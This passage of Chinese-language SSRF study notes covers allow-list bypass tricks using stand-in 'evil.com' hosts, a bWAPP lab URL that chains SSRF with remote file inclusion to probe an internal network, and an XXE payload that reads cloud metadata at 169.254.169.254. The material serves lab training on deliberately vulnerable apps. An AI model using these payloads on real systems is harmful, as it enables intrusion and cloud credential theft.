 #### 5、重定向的SSRF

攻击面在重定向的url里

#### 6. 简单的白名单SSRF

##### 白名单绕过思路：

1. 对ip的白名单
   1. DNS重绑
2. 域名@：**`http://trusted.com@evil.com`**
3. 域名#：**`https://evil-host#expected-host`**
4. 注册域名：https://expected-host.evil-host

### 二、BWAPP

#### 1. SSRF + 文件包含漏洞 | 内网探测

````
http://**ip1**/bWAPP/rlfi.php?language=http://**ip2**/evil/ssrf-1.txt&action=go
POST DATA:**ip3**
````

解释：

1. ip1存在ssrf
2. ip2为自己的ip
3. ip3为目标的内网ip，ip2范围不了
4. 在ip1上又存在文件包含漏洞
5. ip2上放应该扫描脚本，让ip1包含

#### 2. XXE -> SSRF

| **维度**       | **XXE**                               | **SSRF**                               |
| :------------- | :------------------------------------ | :------------------------------------- |
| **触发机制**   | 通过恶意 XML 输入触发                 | 通过用户控制的 URL 参数触发            |
| **主要攻击面** | 文件读取、内网探测、DoS、SSRF 等      | 内网服务访问、云元数据窃取、端口扫描等 |
| **协议支持**   | 支持多种协议（HTTP、FILE、Gopher 等） | 通常依赖 HTTP/HTTPS                    |
| **防御重点**   | 禁用外部实体和 DTD                    | 校验请求目标、网络隔离                 |

当 XXE 的**外部实体指向一个网络资源**时，服务器会尝试发起请求，此时 XXE 的利用效果与 SSRF 一致。
**示例**：

```
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<root>&xxe;</root>
```

- **效果**：服务器访问云元数据接口，**等同于 SSRF 攻击**。

### 三、pikachu
